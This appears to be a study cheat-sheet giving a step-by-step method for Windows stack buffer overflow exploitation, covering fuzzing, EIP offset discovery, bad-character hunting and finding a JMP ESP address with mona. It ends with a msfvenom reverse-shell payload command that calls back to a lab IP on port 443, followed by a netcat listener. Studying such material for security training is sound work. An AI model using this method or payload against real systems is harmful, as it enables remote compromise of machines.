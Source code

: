 ## Windows Buffer Overflow

1) First we identify the IP, service and the port it is running and make edits in the fuzzer script

**GO TO OPTIONS > APPEARANCE > Change > Font to 10-12 in IMMUNITY * View - CPU doubleclick
2) We start fuzzing with Ollydbg/Immunity AS ADMINISTRATOR running while it is attached to the service**

3) Depending on the no. of bytes which crash the service we see the EIP register pointing to AAAA

4) Next we create a pattern with `pattern_create.rb` of 2700 bytes and fuzz with it as our buffer.

`Usage : pattern_create.rb -l 2700`

5) Load the whole value into the buffer instead of the A's and re-run the fuzzer to crash the service. Re-attch and restart service first

6) Now we have a unique value on the EIP register let's use patter_offset to look for the location to understand EIP overwrite

Usage: `pattern_offset -q Value we found on EIP`

7) Output will be say 2606 that mean we need to overwrite the 4 characters after 2606 to overwrite EIP

8) Let's do this by pushing 2606 A's + 4 B's and 500 C's

9) We see that the EIP register is overwritten by 4 B's that is 42424242 in hex.

10) Now we must see if there is space for our shellcode which is normally 350-400 bytes in space

11) When we send 500 bytes as C's we see in the bottom right window we can double click and it shows relative to ESP the count and we can turn that value ex. 1ac to decimal which is 428 bytes.

12) Now we must find bad characters not allowed in payload. (Note `\x00` is always a badchar so its removed already )

```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
```

13) Let's fire it up in the A * 2606 + B * 4 + badchars in the buffer and see where the debugger starts truncating values that is a badchar for us.

Right click ESP and "Follow in dump" REMEMBER TO VIEW HEX DUMP!!!!!!!!!!!

14) We find \x0a as a badchar we remove and re-fuzz

15) Everything else looks good so remember to remove \x00 is always a badchar from payload

16) Now we have \x00,\x0a,\x0d as badhcharacters. (\x0d is FOUND BY SEEING THE GAP in values 0C and then 0E even though everything else seems good. Always keep in mind!

17) Now we must redirect the execution flow aka find a reliable address to get into our EIP so it will have this instruction JMP ESP and it will point to our shellcode

18 ) For hunting such an address we look into mona.py (Remember to restart the service and run it in Immunity debugger to find the right place)

19) we enter !mona modules in the white bar below to see which address will have False under DEP and ASLR as we need to avoid those

20)  Once we have our candidate we click the 'm' memory mapping and find the same and must have R and E both

21) We then go to Executables by clicking 'e' and double clicking the Vulnerable.dll and we see the code for execution of this dll.

22) To find this JMP ESP we can use nasm.rb inbuilt to generate the opcode so we can use mona to find it in our execution page for us.
```
Usage : nasm_shell.rb
nasm> jmp esp

00000000  FFE4              jmp esp
```
23) We now use `!mona find -s "\xff\xe4" -m vuln.dll`

24) We get a bunch of JMP ESP addresses we pick one with no badcharacters!!!!

25) LEt's write that in our 'B' space but remember they must be written the other way around so here it is
0x5f4a358f and will be written as \x8f\x35\x4a\x5f in place of BBBB

26) Update our script and try to send and see if ESP is what we want it to be it redirects the flow to the CCCCCCCC....
FOR THIS WE PLACE A BREAKPOINT ON THE ADDRESS TO STOP THE PROGRAM AND NOTICE THE EIP WE ENTERED AND THEN CONTINUE IT
Right click on any address and click Go to > Expression and type in the address and boom Toggle the Breakpoint there.

Can pop calc first to see if needed else go for ROOT!

27) Then we see that our the crash should indicate the redirection to the CCCC's

28) Time to generate our payload with badchars specified and encode it
## NOTE : REMEMBER THE FORMAT of how to put badcharacters below no commas !!!!
`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.52 LPORT=443 -f py -b "\x00\x0a\x0d" -e x86/shikata_ga_nai `

29) Copy this shellcode after the B's and we must add the no op sleds just a few like 10 and then the shellcode so metasploit can decode this shellcode

30) Setup a netcat listener/multi handler and you're GOLDEN!
